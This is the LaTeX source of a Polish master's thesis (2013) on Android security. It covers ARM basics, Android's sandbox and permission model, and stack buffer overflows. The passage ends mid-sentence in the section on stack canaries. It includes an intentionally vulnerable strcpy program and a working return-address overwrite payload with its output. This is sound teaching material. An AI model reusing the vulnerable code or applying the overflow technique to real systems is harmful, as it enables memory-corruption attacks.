\documentclass{pracamgr}

\usepackage{polski}
\usepackage{graphicx}
\usepackage{hyperref}
\usepackage{tikz}
\usepackage{fancyvrb}

\usepackage[utf8]{inputenc}
\usepackage{float}

\floatstyle{ruled}
\newfloat{print}{tb}{lop}[chapter]
\floatname{print}{Wydruk}

\usetikzlibrary{arrows,positioning} 
\tikzset{
    %Define standard arrow tip
    >=stealth',
    %Define style for boxes
    punkt/.style={
           rectangle,
%           rounded corners,
           draw=black, very thick,
           text width=6.5em,
           minimum height=2em,
           text centered},
    % Define arrow style
    pil/.style={
           ->,
           thick,
           shorten <=2pt,
           shorten >=2pt,},
    pilrev/.style={
           <-,
           thick,
           shorten <=2pt,
           shorten >=2pt,}
}

% Dane magistranta:

\author{Marcel Kołodziejczyk}

\nralbumu{219533}

\title{Luki w bezpieczeństwie systemu operacyjnego Android}

\tytulang{Vulnerabilities in Android operating system}

%kierunek: Matematyka, Informatyka, ...
\kierunek{Informatyka}

% informatyka - nie okreslamy zakresu (opcja zakomentowana)
% matematyka - zakres moze pozostac nieokreslony,
% a jesli ma byc okreslony dla pracy mgr,
% to przyjmuje jedna z wartosci:
% {metod matematycznych w finansach}
% {metod matematycznych w ubezpieczeniach}
% {matematyki stosowanej}
% {nauczania matematyki}
% Dla pracy licencjackiej mamy natomiast
% mozliwosc wpisania takiej wartosci zakresu:
% {Jednoczesnych Studiow Ekonomiczno--Matematycznych}

% \zakres{Tu wpisac, jesli trzeba, jedna z opcji podanych wyzej}

% Praca wykonana pod kierunkiem:
% (podać tytuł/stopień imię i nazwisko opiekuna
% Instytut
% ew. Wydział ew. Uczelnia (jeżeli nie MIM UW))
\opiekun{dra Marcina Peczarskiego\\
  Instytut Informatyki\\
  }

% miesiąc i~rok:
\date{Czerwiec 2013}

%Podać dziedzinę wg klasyfikacji Socrates-Erasmus:
\dziedzina{
%11.0 Matematyka, Informatyka:\\
%11.1 Matematyka\\
%11.2 Statystyka\\
11.3 Informatyka\\
%11.4 Sztuczna inteligencja\\
%11.5 Nauki aktuarialne\\
%11.9 Inne nauki matematyczne i informatyczne
}

%Klasyfikacja tematyczna wedlug AMS (matematyka) lub ACM (informatyka)
\klasyfikacja{D. Software\\
  D.4. Operating Systems\\
  D.4.6. Security and Privacy Protection}

% Słowa kluczowe:
\keywords{android, arm, atak, bezpieczeństwo, przepełnienie bufora, metasploit, exploit, shellcode}

% Tu jest dobre miejsce na Twoje własne makra i~środowiska:
\newtheorem{defi}{Definicja}[section]

% koniec definicji

\begin{document}
\maketitle


%tu idzie streszczenie na strone poczatkowa
\begin{abstract}
krótkie streszczenie pracy
\end{abstract}


\tableofcontents
%\listoffigures
%\listoftables

\chapter*{Wprowadzenie}

\chapter{Platforma sprzętowa i programowa}

Android jest systemem operacyjnym i zestawem aplikacji dedykowanym przede wszystkim dla urządzeń przenośnych z ekranami dotykowymi, takimi jak 
np. smartfon, tablet. Jądro systemu zostało oparte na jądrze Linuksa. System ten został zaprojektowany i stworzony głównie z myślą o urządzeniach
wyposażonych w procesor o architekturze ARM, aczkolwiek podejmowane są prace nad dostosowaniem Androida do innych architektur, np. x86.

W rozdziale tym zostaną opisane podstawy architektury procesorów ARM. Następnie zostanie omówiona architektura oraz model bezpieczeństwa systemu Android.

\section{Architektura procesorów ARM}

ARM jest obecnie najczęściej stosowaną architekturą procesorów typu RISC. Z biegiem czasu ukazywały się kolejne jej wersje. Niniejsza 
praca bazuje na wersji architektury ARMv7-A, która jest 32-bitowa i została zrealizowana m.in. w procesorach z serii Cortex-A powszechnie 
wykorzystywanych w nowoczesnych urządzeniach przenośnych. Główne jej cechy to:
\begin{itemize}
\item dwa zestawy instrukcji: ARM (nazywany także A32) oraz Thumb-2,
\item architektura typu \emph{load/store} -- operacje arytmetyczno-logiczne wykonywane są tylko na~rejestrach, a nie bezpośrednio na pamięci,
\item szesnaście 32-bitowych rejestrów,
\item większość instrukcji wykonywanych w jednym cyklu zegara.
\end{itemize}

\subsection{Thumb-2}

W podstawowym zestawie instrukcji ARM rozkazy są stałej, 32-bitowej długości. W celu zwiększenia gęstości kodu został wprowadzony drugi, uproszczony 
zestaw Thumb, w którym rozkazy są też stałej, 16-bitowej długości. Został on następnie rozszerzony do zestawu Thumb-2, w którym instrukcje są zmiennej 
długości (16- i 32-bitowe). Ponieważ we wszystkich trybach adresy instrukcji muszą być odpowiednio wyrównane, 
ostatni bit adresu instrukcji ma zawsze wartość 0. Wykorzystuje się to w celu zmiany trybu pracy procesora. Instrukcja skoku do~adresu, 
którego ostatni bit jest równy 1, wymusza zmianę trybu na Thumb-2 i dalsze wykonywanie instrukcji spod adresu odpowiednio wyrównanego. 
Instrukcja skoku do~parzystego adresu powoduje przejście do 32-bitowego zestawu instrukcji ARM.

\subsection{Rejestry}

Z punktu widzenia programisty dostępnych jest szesnaście 32-bitowych rejestrów R0~--~R15. Trzy z nich mają dedykowane przeznaczenie:

\begin{itemize}
\item SP (ang. \textit{Stack Pointer}) -- R13 -- wskaźnik stosu,
\item LR (ang. \textit{Link Register}) -- R14 -- adres powrotu z podprogramu,
\item PC (ang. \textit{Program Counter}) -- R15 -- adres następnej instrukcji.
\end{itemize}

Dodatkowo występuje rejestr statusu procesora CPSR (ang. \textit{Current Processor Status Register}). Przechowuje on m.in. znaczniki Negative, Zero, 
Carry, oVerflow. Większość instrukcji podstawowego zestawu może być wykonywanych warunkowo, w zależności od stanu tych znaczników. Szczegółowe 
informacje na ten temat można znaleźć w \cite{armman}.

\subsection{Standard wywołania podprogramów}

Zbiór reguł i konwencji, które określają sposób wywoływania podprogramów, przekazywania im argumentów oraz odbierania zwracanej wartości, 
a także format plików binarnych nazywa się ABI (ang. \textit{Application Binary Interface}). Kompletną dokumentację ABI dla architektury ARM można 
znaleźć w \cite{armcall}. Zdefiniowano w niej następujące zasady wywoływania podprogramów (procedur i funkcji):
\begin{itemize}
\item Do przekazywania argumentów i zwracania wyniku funkcji używane są rejestry R0~--~R3. Kolejne argumenty mogą być przekazywane na stosie.
\item Wartości rejestrów R0~--~R3 i R12 mogą być dowolnie modyfikowane w trakcie wykonania podprogramu.
\item Zawartość rejestrów R4~--~R11, LR, SP musi być przywrócona do wartości sprzed wywołania podprogramu. Zazwyczaj w prologu rejestry te 
odkłada się na stos, aby przywrócić ich wartości w epilogu.
\item Stos rośnie w kierunku mniejszych adresów pamięci.
\end{itemize}

Wykonywanie podprogramów umożliwiają następujące instrukcje skoku:
\begin{itemize}
\item \verb+B+ (ang. \textit{Branch}) -- skok względny,
\item \verb+BL+ (ang. \textit{Branch with Link}) -- skok względny, wywołanie podprogramu,
\item \verb+BX+ (ang. \textit{Branch and Exchange}) -- skok pośredni,
\item \verb+BLX+ (ang. \textit{Branch with Link and Exchange}) -- skok pośredni, wywołanie podprogramu.
\end{itemize}

Instrukcja \verb+B+ umożliwia wykonanie skoku o maksymalnie 32 MiB w przód lub w tył od~bieżącej wartości licznika instrukcji. Instrukcja \verb+BL+
dodatkowo zachowuje adres powrotu (adres następnej instrukcji) w rejestrze LR (R14). Pozostałe dwie instrukcje jako argument przyjmują rejestr~--~
skok jest wykonywany do adresu, jaki znajduje się
w przekazanym rejestrze.

\section{Architektura systemu Android}

Rysunek \ref{figure:architektura} przedstawia najważniejsze komponenty systemu Android. Zostaną one w skrócie omówione w kolejnych punktach.

\begin{figure}[htb]
\begin{center}
\includegraphics[width=\textwidth]{system-architecture.jpg} 
\end{center}
\caption[Główne komponenty systemu Android]{Główne komponenty systemu Android, źródło: \url{http://developer.android.com/about/versions/index.html}}
\label{figure:architektura}
\end{figure}

\subsection{Jądro systemu}

Podstawową warstwą zapewniającą interakcje ze sprzętem jest jądro systemu. Jądro systemu Android od wersji 4.0 (\textit{Ice Cream Sandwich}) jest 
nieznacznie zmodyfikowanym jądrem Linuxa w wersji 3.0.x. Wcześniejsze wydania systemu opierały się na jądrach z linii 2.6.x. Najważniejsze zmiany 
w stosunku do głównej wersji to:
\begin{itemize}
\item dodatkowe mechanizmy komunikacji międzyprocesowej i zdalnego wołania metod (ang. \textit{Android Binder}),
\item nowy podsystemem pamięci dzielonej \verb+ashmem+ i alokator pamięci \verb+pmem+,
\item \verb+logger+ -- wsparcie jądra dla narzędzia \verb+logcat+,
\item dodatkowe mechanizmy ograniczające dostęp do wybranych funkcjonalności sieciowych (ang. \textit{paranoid network security}).
\end{itemize}

Sytuacja, w której jądro Androida jest rozgałęzieniem w stosunku do głównej linii Linuxa, jest bardzo istotna z punktu widzenia bezpieczeństwa systemu. 
Wszelkie zmiany wprowadzane w jądrze Linuxa, w tym niektóre poprawki bezpieczeństwa, pojawiają się w zmodyfikowanej wersji dla Androida ze sporym 
opóźnieniem. Dodatkowo opóźnienie to jest powiększone przez sposób aktualizacji systemu, co zostanie opisane w punkcie \ref{section:aktualizacje}.
Z tego powodu istnieje bardzo wiele powszechnie znanych luk w jądrze Androida, pozwalających m.in. na eskalację uprawnień procesu. Dzięki temu 
możliwe jest tymczasowe lub permanentne uzyskanie uprawnień administratora systemu (tzw. ,,rootowanie'' systemu). Jest to bardzo często wykorzystywane 
przez zwykłych użytkowników do wykonania niektórych czynności administracyjnych, np. zmiany konfiguracji systemu, odinstalowania wybranych aplikacji 
systemowych, a nawet wgrania zupełnie nowego obrazu systemu. Istnieje wiele narzędzi umożliwiających wykonanie tego procesu zwykłemu, niezaawansowanemu 
użytkownikowi.

\subsection{Biblioteki}

System Android wyposażono w szereg popularnych bibliotek napisanych w C/C++, używanych przez różne komponenty poprzez framework aplikacji. Możliwe jest 
także skorzystanie z tych bibliotek w kodzie natywnym napisanym w C/C++. Przykładowe biblioteki to:

\begin{itemize}
\item \verb+libc+ -- standardowa biblioteka C, zoptymalizowana dla urządzeń wbudowanych,
\item \verb+webcore+ -- silnik przeglądarki internetowej, wykorzystany też w innych aplikacjach, które potrzebują wyświetlić stronę HTML, np. 
w kliencie poczty elektronicznej,
\item \verb+sqllite+ -- lekka, relacyjna baza danych,
\item \verb+OpenGL+ -- biblioteka graficzna używana podczas renderowania grafiki dwu- i trójwymiarowej,
\item zestaw bibliotek multimedialnych dostarczających kodeki wybranych formatów plików.
\end{itemize}

\subsection{Środowisko czasu wykonania}

Środowisko czasu wykonania systemu Android składa się z maszyny wirtualnej Dalvik oraz podstawowych bibliotek Javy.

Dalvik jest maszyną wirtualną, która została stworzona specjalnie dla systemu Android, w celu zapewnienia odpowiedniej wydajności na urządzeniach 
z mniejszymi zasobami, jak np. telefony komórkowe. Dalvik nie jest maszyną wirtualną Javy i używa własnego kodu bajtowego w formacie \verb+.dex+ 
(ang. \textit{Dalvik executable}). Możliwa jest jednak konwersja kodu bajtowego Javy do kodu Dalvika. W przeciwieństwie do wirtualnej maszyny Javy, 
która jest maszyną stosową, Dalvik jest maszyną rejetrową. Dalvik umożliwia uruchomienie wielu aplikacji jednocześnie, wydajnie tworząc klika instancji 
maszyny wirtualnej. Zapewnia izolację procesów, zarządzanie pamięcią oraz wielowątkowość. 

\subsection{Aplikacje}

System Android posiada kilka podstawowych aplikacji zapewniających podstawowe funkcjonalności nowoczesnego telefonu komórkowego, np. klient SMS, 
aplikacja do wykonywania połączeń głosowych, klient poczty, przeglądarka internetowa, zarządca aplikacji. Bardzo wiele funkcjonalności jest wydzielonych 
do osobnych komponentów, tworząc framework. Jest on zaprojektowany w sposób, który umożliwia zastąpienie jego dowolnego komponentu na inny zapewniający 
taką samą funkcjonalność.

\section{Model bezpieczeństwa Androida}

Platforma Android została zaprojektowana w taki sposób, aby możliwe było także zainstalowanie aplikacji z potencjalnie niezaufanych źródeł.
Jest to odmienny model niż w przypadku telefonów iPhone (z systemem operacyjnym iOS), gdzie wszystkie aplikacje mogą być jedynie zainstalowane
z jednego źródła (\textit{Apple Store}) i mogą być zweryfikowane przed upublicznieniem. Z tego powodu system Android posiada mechanizmy bezpieczeństwa 
działające na wielu poziomach. Izolowanie aplikacji wykorzystuje mechanizmy kontroli dostępu do systemu plików, jakie udostępnia jądro Linuxa oraz 
mechanizm nadawania wybranych uprawnień zatwierdzanych przez użytkownika w trakcie instalacji aplikacji. Aplikacje muszą być także podpisane przy użyciu 
kryptografii z kluczem publicznym, jednak ten mechanizm umożliwia jedynie wiarygodne zidentyfikowanie autora aplikacji.

System Android zbudowany jest na bazie standardowego jądra Linuxa z nieznacznymi modyfikacjami, dlatego też 
posiada uznaniową kontrolę dostępu (ang. \textit{Discretionary Access Control}) na poziomie systemu plików, która opiera się na identyfikatorach 
użytkowników (\textit{uid}) i grup (\textit{gid}). Nad jądrem Android używa własnego zbioru bibliotek i usług. Aplikacje mogą być tworzone w Javie
i są wtedy kompilowane do kodu bajtowego maszyny wirtualnej Dalvik. Aplikacje lub ich fragmenty mogą być również tworzone w C/C++, a następnie 
wywoływane z Javy poprzez interfejs JNI (ang. \textit{Java Native Interface}).

\subsection{Uruchamianie aplikacji w ,,piaskownicy''}\label{subsection:piaskownica}

Aplikacje zainstalowane w systemie są ograniczone w ,,piaskownicy'', która jest zdefiniowana poprzez unikalny \textit{uid} i odpowiedni \textit{gid}.
Identyfikatory te są tworzone dynamicznie podczas instalowania aplikacji. Nazwy użytkownika i grupy są identyczne i składają się z prefiksu \verb+app_+
oraz identyfikatora. Każda aplikacja używa innego identyfikatora użytkownika i grupy, co gwarantuje pełną izolację na poziomie systemu plików. Dostęp
do plików systemowych jest także znacząco ograniczony, zazwyczaj tylko do odczytu. Wywołanie funkcji lub usługi spoza piaskownicy jest możliwe poprzez
odpowiednie API, które wymaga odpowiednich uprawnień aplikacji, co zostanie opisanie w punkcie \ref{subsection:uprawnienia}.

Ograniczenia piaskownicy są wymuszane przez jądro systemu i poprzez odpowiednie usługi przestrzeni użytkownika, dlatego też dotyczą wszystkich aplikacji,
włącznie z kodem natywnym wywoływanym bezpośrednio poprzez interfejs JNI lub przy użyciu wywołania systemowego \verb+exec+. Jeżeli aplikacje potrzebują 
współdzielić dane, na przykład na poziomie systemu plików, powinny zadeklarować wspólny identyfikator użytkownika (\textit{uid}) w manifeście. Jest to 
możliwe tylko wtedy, gdy aplikacje są podpisane przy użyciu tego samego klucza prywatnego. Identyfikatory użytkowników i przydzielone im uprawnienia są 
przechowywane w pliku \verb+data/system/packages.xml+ i mogą być odczytywane przez wszystkie aplikacje zainstalowane na urządzeniu.

\subsection{Kontrola dostępu do systemu plików}

Uznaniowa kontrola dostępu do systemu plików w Androidzie jest zrealizowana przy użyciu tradycyjnych unixowych uprawnień. Pliki tworzone przez 
aplikacje domyślnie mają ustawione uprawnienia na \verb+rw-rw----+ (0660 w notacji ósemkowej). Z tego powodu aplikacje zainstalowane z różnymi 
identyfikatorami użytkownika i grupy nie mogą czytać, modyfikować ani wykonywać wzajemnie swoich plików. Pliki mogą być jednak jawnie udostępniane 
poprzez użycie flag \verb+MODE_WORLD_READABLE+ i \verb+MODE_WORLD_WRITABLE+ podczas tworzenia ich w API Javy lub poprzez wywołanie systemowe 
\verb+chmod+ w natywnym kodzie C/C++. Tworzenie plików z odpowiednimi uprawnieniami leży w gestii aplikacji.

Katalog z danymi aplikacji domyślnie znajduje się w \verb+/data/data/<nazwa pakietu>/+ i~posiada następującą strukturę:
\begin{itemize}
\item \verb+databases+ -- służy do przechowywania baz danych sqlite,
\item \verb+lib+ -- zawiera wszystkie natywne biblioteki używane przez aplikację, skopiowane podczas instalacji,
\item \verb+files+ -- katalog, gdzie domyślnie są tworzone pliki przez aplikację,
\item \verb+shared_prefs+ -- zawiera XML-owe pliki konfiguracyjne aplikacji.
\end{itemize}

Standardowe, preinstalowane aplikacje (np. \verb+com.android.camera+) zazwyczaj także używają powyższej struktury katalogów, jednak ich lokalizacja 
może być odmienna na niektórych urządzeniach, np. telefony marki Samsung używają dla preinstalowanych aplikacji ścieżki 
\verb+/dbdata/databases/<nazwa pakietu>/+. Jest to istotne z punktu widzenia twórcy exploitów, gdyż złośliwy kod musi się dostosować do struktury 
katalogów używanej przez dane urządzenie.

W trakcie rozruchu systemu różne części systemu plików są montowane z odmiennymi opcjami. Katalog \verb+/data+ używa opcji 
\verb+'rw,nosuid,nodev,relatime'+, co m.in. oznacza, że flaga plików \verb+setuid+ nie będzie respektowana. Pliki wykonywalne będą zawsze uruchamiane 
z uprawnieniami użytkownika wykonującego program, a nie właściciela pliku.

Katalog \verb+/system+ jest montowany z opcjami \verb+ro,relatime+, co powoduje, że cała partycja jest jedynie do odczytu. Warto zwrócić uwagę, że 
w tym przypadku opcja \verb+nosuid+ nie jest używana, ponieważ system Android korzysta z plików z flagą \verb+setuid+ w tej lokalizacji.

\subsection{Uprawnienia aplikacji}\label{subsection:uprawnienia}

Aplikacje w celu wyjścia z piaskownicy (zarówno na poziomie systemu pików, jak i wywoływania chronionych funkcji API systemu) muszą mieć wcześniej
nadane odpowiednie uprawnienia. Wymagany przez aplikację zestaw uprawnień jest wyświetlany w trakcie instalacji i musi być zaakceptowany przez 
użytkownika w całości albo wcale. Użytkownik nie może zatwierdzić jedynie części z wymaganych przez aplikację uprawnień.

Każda aplikacja musi mieć plik \verb+AndroidManifest.xml+ w swoim głównym katalogu. Plik ten dostarcza systemowi operacyjnemu kluczowych informacji 
na temat aplikacji. W pliku tym deklarowane są uprawnienia, jakich potrzebuje aplikacja do poprawnego działania. Przykładowy wpis
\begin{verbatim}
<uses-permission android:name="android.permission.CALL_PHONE" />
\end{verbatim}
pozwala aplikacji na wykonywanie połączeń telefonicznych. Próba wykonania chronionej funkcji API bez odpowiednich uprawnień spowoduje podniesienie 
wyjątku \verb+SecurityException+.

\subsection{Podpisywanie aplikacji}

Każda instalowana aplikacja w systemie Android musi być podpisana przez twórcę przy użyciu jego klucza prywatnego wraz z odpowiednim certyfikatem. 
Możliwe jest jednak używanie kluczy prywatnych potwierdzonych przez dowolne centrum certyfikacji, a także certyfikatów samopodpisanych. Mechanizm 
podpisywania aplikacji nie ma większego znaczenia z punktu widzenia bezpieczeństwa systemu. Jedyną korzyścią, jaką wnosi, jest potwierdzenie tożsamości 
autora instalowanej aplikacji. W przyszłości system podpisywania może zostać wykorzystany w celu ograniczenia dostawców aplikacji do jedynie uprzednio 
zweryfikowanych, podobnie jak to jest w przypadku konkurencyjnego iPhone'a firmy Apple. W obecnych wydaniach systemu Android funkcjonalność taka nie 
jest zaimplementowana.

Mechanizm podpisywanie aplikacji umożliwia programom współdzielenie zasobów, co zostało opisane w punkcie \ref{subsection:piaskownica}

\section{Narzędzia programistyczne}

Twórcy systemu Android udostępnili bardzo dobre narzędzia niezbędne do rozwijania i testowania aplikacji na ten system: SDK (ang. \textit{Software
Development Kit}) i NDK (ang. \textit{Native Development Kit}).

Android SDK jest podstawowym zestawem narzędzi przydatnym dla bardziej zaawansowanych użytkowników systemu oraz programistów . Najważniejsze komponenty 
tego pakietu to:
\begin{itemize}
\item Emulator wraz z zestawem obrazów kolejnych wersji systemu pozwalający uruchomić wirtualny obraz systemu. Możliwe jest zdefiniowanie 
sprzętowych parametrów emulowanego obrazu, m.in. rozmiar pamięci RAM, rozdzielczość i typ ekranu. Dzięki temu można wykonywać testy na wielu 
konfiguracjach. Wirtualizacja opiera się na emulatorze QEMU.
\item \verb+ADB+ (ang. \textit{Android Debug Bridge}) -- narzędzie umożliwiające komunikację z urządzeniem i debugowanie aplikacji. Pozwala wykonywać 
szereg czynności diagnostycznych, np. przesłanie pliku z lub do urządzenia, wypisanie logów systemowych, uruchomienie konsoli, zainstalowanie lub 
odinstalowanie aplikacji. Narzędzie to może być także wykorzystywane do pracy z uruchomionym wirtualnym obrazem.
\item Biblioteki dla kolejnych wydań systemu umożliwiające tworzenie aplikacji na daną platformę.
\end{itemize}

Android NDK jest zestawem popularnych narzędzi dedykowanych dla systemu Android. Pakiet ten został stworzony, aby umożliwić tworzenie aplikacji lub 
ich części w C/C++. W jego skład wchodzą między innymi:
\begin{itemize}
\item różne wersje kompilatora GCC dla wybranych architektur procesora (ARM, x86, ...),
\item standardowe narzędzia do debugowania i optymalizacji kodu, np. \verb+gdb+, \verb+objdump+, \verb+gcov+, \verb+gdbserver+, \verb+ar+, \verb+ld+,
\item pliki nagłówkowe i skompilowane statyczne i dynamiczne biblioteki, np. \verb+libc+, \verb+libz+, \verb@libstdc++@, \verb+libm+.
\end{itemize}

Obydwa pakiety posiadają bogatą dokumentację oraz zawierają liczne przykłady użycia. Przykłady w dalszej części pracy będą używały powyższych narzędzi.

\section{Aktualizacje systemu}\label{section:aktualizacje}

System Android posiada wbudowany mechanizm aktualizacji całego systemu. Jednak nowe wersje systemu są dostarczane przez producenta zazwyczaj ze sporym 
opóźnieniem. Wielu producentów urządzeń wraz ze standardową dystrybucją systemu załącza dodatkowe oprogramowanie np. \textit{HTC Sense} firmy HTC, 
nakładka graficzna \textit{TouchWiz} firmy Samsung. Źródła systemu zazwyczaj są nieznacznie modyfikowane przez producenta dla każdego modelu telefonu, 
gdyż wymagają np. dodatkowych sterowników urządzeń. Niektóre telefony posiadają także dodatkowe oprogramowanie operatora telefonii komórkowej.
Nowe wersje systemu w pierwszej kolejności pojawiają się na urządzeniach z linii \textit{Google Nexus}, ponieważ nie zawierają one żadnych dodatkowych 
rozszerzeń producenta ani firm telekomunikacyjnych. Bardzo wiele modeli nie otrzymuje dalszego wsparcia ze strony producenta. Jest to głównie 
spowodowane wzrastającymi wymaganiami sprzętowymi kolejnych wersji systemu, których starsze modele nie spełniają. Bywa także, że decyzja o zaprzestaniu 
wydawania aktualizacji ma przyczyny biznesowe, gdyż producent nie chce ponosić dalszych nakładów na mało popularne urządzenia.

Tabela \ref{table:zasieg} przedstawia udział najpopularniejszych wersji systemu. Zauważyć można, że największy udział mają wersje, których data 
premiery miała miejsce ponad dwa lata temu.

\begin{table}
\centering
\caption[Udział wersji systemu Android]{Udział wersji systemu Android (stan na 2 kwietnia 2013 r.), źródło: 
\url{http://developer.android.com/about/dashboards/index.html}}
\label{table:zasieg}
\begin{tabular}{|l|l|l|}
\hline
Wersja	& Nazwa kodowa	& Udział	\\ 
\hline
2.1	& Eclair	& \phantom{0}1,7\%	\\
2.2	& Froyo	& \phantom{0}4,0\%	\\
2.3.3 - 2.3.7	& Gingerbread	& 39,7\%	\\
4.0.3 - 4.0.4	& Ice Cream Sandwich	& 29,3\%	\\
4.1.x	& Jelly Bean	& 23,0\%	\\
4.2.x	& Jelly Bean	& \phantom{0}2,0\%	\\
\hline
\end{tabular}
\footnotetext{}
\end{table}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% ROZDZIAŁ 2
%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\chapter{Techniki ataków i sposoby przeciwdziałania}

\section{Błąd przepełnienie bufora na stosie}

\begin{print}
\begin{verbatim}
 1: #include <stdio.h>
 2: #include <stdlib.h>
 3: 
 4: void exploit() {
 5:     printf("Exploited!\n");
 6:     exit(0);
 7: }
 8:
 9: void vulnerable(char *arg) {
10:     char buffer[100];
11:     strcpy(buffer, arg);
12: }
13: 
14: int main(int argc, char *argv[]) {
15:     if (argc < 0) exploit();
16:     vulnerable(argv[1]);
17: }
\end{verbatim}
\caption{Przykładowy program z błędem powodującym przepełnienie bufora}
\label{print:overflow}
\end{print}

\SaveVerb{vuln}|vulnerable|
\begin{print}
\begin{verbatim}
1:   push	{lr}
2:   sub	sp, #108
3:   adds	r1, r0, #0
4:   mov	r0, sp
5:   blx	0x83d0
6:   add	sp, #108
7:   pop	{pc}
\end{verbatim}
\caption{Kod assemblerowy procedury \protect\UseVerb{vuln}}
\label{print:vulnerable}
\end{print}

Przepełnienie bufora to błąd w kodzie programu umożliwiający wczytanie do wyznaczonego obszaru pamięci większej ilości danych, niż zarezerwował na ten 
cel programista. Dane wykraczające poza rozmiar bufora nadpisują obszar pamięci bezpośrednio z nim sąsiadujący, który może zawierać inne dane lub 
informacje decydujące o przepływie sterowania w wykonywanym programie.

Na przykładzie programu \ref{print:overflow}, w którym występuje błąd umożliwiający przepełnienie bufora na stosie, zastanie omówiona 
technika ataku pozwalająca na zmianę zachowania programu.

Program \ref{print:overflow} został skompilowany z optymalizacjami (\verb+-Os+) do kodu maszynowego w trybie Thumb-2. Wykonanie procedury 
\verb+exploit+ w trakcie normalnego wykonania programu nigdy nie powinno nastąpić. Użycie tej procedury w linii 15 jest tylko po to, aby nie 
została usunięta przez kompilator jako martwy kod w trakcie optymalizacji.

\subsection{Nadpisanie adresu powrotu}

W punkcie tym zostanie zaprezentowana atak, w wyniku którego sterowanie programu przejdzie do wykonywania funkcji \verb+exploit+.
W funkcji \verb+vulnerable+ wykonywane jest kopiowanie napisu przekazanego jako argument \verb+arg+ do lokalnie zadeklarowanego bufora \verb+buffer+ 
o rozmiarze 100 bajtów. Błędem jest niesprawdzenie długości przekazywanego napisu. Uruchomienie programu z dostatecznie długim argumentem kończy się 
naruszeniem ochrony pamięci:

\begin{verbatim}
sh-3.2# ./buffer-overflow `printf 'A%.0s' {1..108}`
Segmentation fault
\end{verbatim}

Aby dokładnie zrozumieć genezą błędu, należy zapoznać się z kodem assemblerowym procedury \verb+vulnerable+, przedstawionym na wydruku 
\ref{print:vulnerable}. Wykonuje ona kolejno:
\begin{itemize}
\item Odkłada na stos adres powrotu, który jest przechowywany w rejestrze LR (linia 1).
\item Powiększa stos, aby utworzyć miejsce na lokalny bufor \verb+buffer+. Alokowane jest nadmiarowo 108 bajtów (linia 2).
\item Przygotowuje argumenty wywołania procedury \verb+strcpy+. Do rejestru R1 zapisywany jest adres początku bufora \verb+arg+, przekazanego
w rejestrze R0 jako argument procedury \verb+vulnerable+ (linia 3). Do rejestru R0 zapisywany jest adres początku lokalnego bufora \verb+buffer+, 
który znajduje się na szczycie stosu (linia 4).
\item Wykonuje skok do procedury \verb+strcpy+ (linia 5).
\item Przywraca poprzednią wartość wierzchołka stosu, tak aby wskazywał na wcześniej odłożony adres powrotu (linia 6).
\item Wczytuje adres powrotu do rejestru PC. Powoduje to dalsze wykonywanie przez program kodu od tego adresu (linia 7).
\end{itemize}

Procedura \verb+strcpy+ kopiuje łańcuch znaków zakończony bajtem o wartości zero do obszaru pamięci wskazywanego przez pierwszy argument. Ponieważ 
przekazano napis znacznie dłuższy od zaalokowanej pamięci, nadpisany został obszar pamięci, który znajduje się bezpośrednio za docelowym buforem, w tym
zapisany tam wcześniej adres powrotu. Ostatnia instrukcja procedury \verb+vulnerable+ wczytuje do rejestru PC wprowadzoną przez użytkownika wartość,
która nie jest poprawnym adresem kodu programu.

Jeżeli adres powrotu zostanie nadpisany przez inny, poprawny adres kodu, możliwa będzie zmiana przepływu sterowania w programie. Umieszczenie
w tym miejscu adresu początku kodu procedury \verb+exploit+ spowoduje, że zostanie ona wykonana po zakończeniu procedury \verb+vulnerable+.

Adres początku kodu funkcji \verb+exploit+ można uzyskać za pomocą narzędzia \verb+gdb+:
\begin{verbatim}
(gdb) x/x exploit 
0x84d0 <exploit>:	0x4803b508
\end{verbatim}

Aby doprowadzić do wykonania procedury \verb+exploit+, należy uruchomić program z dostatecznie długim argumentem. Ponieważ na bufor \verb+buffer+ 
zostało zaalokowanych na stosie 108 bajtów, wartość, która ma zostać wczytana do rejestru licznika instrukcji, należy umieścić na~kolejnych pozycjach.
Wartość ta musi też być zapisana w takiej kolejności bajtowej, w jakiej został skompilowany program. Domyślnie jest to little-endian.
Cały argument musi być poprawnym napisem, a więc nie może zawierać bajtu o wartości zero. Skonstruowanie takiego argumentu jest jednak możliwe, 
dzięki odpowiedniej kolejności bajtowej przekazywanego adresu -- dwa najmniej znaczące bajty adresu będą położone jako pierwsze. Kolejny bardziej 
znaczący bajt adresu, który jest równy zero, poprawnie zakończy napis. Dodatkowo wykorzystywany jest fakt, że najbardziej znaczący bajt adresu
pierwotnie odłożonego adresu powrotu jest także równy zero. Bajt ten nie zostanie nadpisany trakcie przepełnienia bufora. Kod maszynowy funkcji 
\verb+exploit+ jest skompilowany w trybie Thumb-2, więc aby został poprawnie zinterpretowany przez procesor, adres funkcji \verb+exploit+, 
tj.~\verb+0x84d0+, musi być zwiększony o 1. Poniżej uzyskujemy spodziewany efekt, czyli wykonanie procedury \verb+exploit+, która wypisuje napis 
na~standardowe wyjście:

\begin{verbatim}
sh-3.2# ./buffer-overflow `printf 'A%.0s' {1..108}; printf '\xd1\x84\x00'`
Exploited!
\end{verbatim}

\subsection{Zabezpieczenie ProPolice}

\begin{print}
\begin{verbatim}
 1:  push	{r4, lr}
 2:  ldr	r4, [pc, #36]	; pobranie adresu wskaźnika do tablicy z kanarkami
 3:  sub	sp, #104
 4:  adds	r1, r0, #0
 5:  add	r4, pc
 6:  ldr	r4, [r4, #0]
 7:  mov	r0, sp
 8:  ldr	r3, [r4, #0]
 9:  str	r3, [sp, #100]
10:  blx	0x8450
11:  ldr	r2, [sp, #100]
12:  ldr	r3, [r4, #0]
13:  cmp	r2, r3
14:  beq.n	0x856a          ; skok do wiersza 16
15:  blx	0x845c          ; skok do obsługi błędu
16:  add	sp, #104
17:  pop	{r4, pc}
\end{verbatim}
\caption{Kod assemblerowy procedury \protect\UseVerb{vuln} z włączoną ochroną ProPolice}
\label{print:vulnerable-propolice}
\end{print}

W nowoczesnych kompilatorach zostało dodane zabezpieczenie, które znacząco utrudnia wykonywanie ataków polegających na nadpisywaniu niektórych danych 
znajdujących się na~stosie. Kod maszynowy funkcji, która alokuje bufor na stosie, jest wzbogacany o dodatkowe sprawdzenie, czy nie wystąpiło 
przepełnienie bufora. Polega ono na umieszczeniu na stosie małego, losowego ciągu znaków, tzw. ,,kanarka'' lub ,,ciasteczka'' (ang. \textit{canary}, 
